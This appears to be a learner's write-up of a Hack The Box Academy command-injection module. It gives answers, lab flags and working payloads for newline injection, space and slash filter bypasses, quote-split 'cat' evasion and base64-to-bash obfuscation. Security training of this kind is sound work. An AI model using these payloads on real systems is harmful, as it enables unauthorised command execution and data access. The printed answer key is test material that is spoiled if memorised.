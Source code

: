 # Command Injections
* Source: [Hack the Box: Academy](https://academy.hackthebox.com/)
* Module: Command Injections
* Tier: II
* Difficulty: Medium
* Category: Offensive
* Time estimate: 6 hours
* Date: 12-05-2022
* Author: [DjikstraCS](https://github.com/DjikstraCS)

---
## Detection
### Question:
![](./attachments/Pasted%20image%2020220512181746.png)

*Hint: Use Firefox or Chrome. It should start with "Please"*

![](./attachments/Pasted%20image%2020220513102509.png)

**Answer:** `Please match the requested format.`

---
## Injecting Commands
### Question:
![](./attachments/Pasted%20image%2020220512181825.png)

*Hints: You can either user burp or click `CTRL + U` in Firefox to show the source code*

![](./attachments/Pasted%20image%2020220513104047.png)

**Answer:** `17`

---
## Other Injection Operators
### Question:
![](./attachments/Pasted%20image%2020220512181939.png)

![](./attachments/Pasted%20image%2020220513104519.png)

**Answer:** `|`

---
## Identifying Filters
### Question:
![](./attachments/Pasted%20image%2020220512182009.png)

*Hint: Just see which injected characters does not cause a denied request. No need to reach command execution yet, as there are other protections in place.*

New Line character `\n` encoded as URL `%0a` is not blacklisted.

Payload: `%0a`

![](./attachments/Pasted%20image%2020220513121755.png)

**Answer:** `new-line`

---
## Bypassing Space Filters
### Question:
![](./attachments/Pasted%20image%2020220512182054.png)

*Hint: The size column (in bytes) is between the owner 'www-data' and the modification date.*

Working payloads for bypassing blacklisted space, ` `:

Payload 1: `%0a{ls,-la}`

Payload 2: `%0A%09ls%09-lah`

Payload 3: `%0A${IFS}ls${IFS}-la`

![](./attachments/Pasted%20image%2020220513121427.png)

**Answer:** `1813`

---
## Bypassing Other Blacklisted Characters
### Question:
![](./attachments/Pasted%20image%2020220512182139.png)

*Hint: Use the PATH environment variable along with the injection character you identified earlier*

Working payloads for bypassing blacklisted `/`:

Payload 1: `%0a{ls,${PATH:0:1}home}`

Payload 2: `%0A%09ls%09${PATH:0:1}home`

Payload 3: `%0A${IFS}ls${IFS}${PATH:0:1}home`

![](./attachments/Pasted%20image%2020220513122943.png)

**Answer:** `1nj3c70r`

---
## Bypassing Blacklisted Commands
### Question:
![](./attachments/Pasted%20image%2020220512182222.png)

*Hint: Use character insertion to bypass the blacklist on the 'cat' command.*

First, we need to locate 'flag.txt'

Payload: `%0a{ls,${PATH:0:1}home${PATH:0:1}1nj3c70r}`

![](./attachments/Pasted%20image%2020220513125949.png)

We can bypass the blacklisted `cat` command by adding a two `'`s. 

Payload: `%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`

![](./attachments/Pasted%20image%2020220513125735.png)

**Answer:** `HTB{b451c_f1l73r5_w0n7_570p_m3}`

---
## Advanced Command Obfuscation
### Question:
![](./attachments/Pasted%20image%2020220512182300.png)

*Hint: Don't forget to bypass any filtered characters*

Using Base64 encoding to bypass filters:

![](Pasted%20image%2020220608163429.png)

To make the payload useful, all we need to do is bypass the space. This can de done with `${IFS}`, `%09` or `{`x`,`x`}`.

Payload: `%0abash<<<$({base64,-'d'}<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`

![](Pasted%20image%2020220608163841.png)

**Answer:** `/usr/share/mysql/debian_create_root_user.sql`

---
## Skills Assessment
### Question:
![](./attachments/Pasted%20image%2020220512182411.png)

*Hint: It is always easier to inject our command in an input going at the end of the command, rather than in the middle of it, though both are possible.*



**Answer:** ``

---
**Tags:** [[Hack The Box Academy]]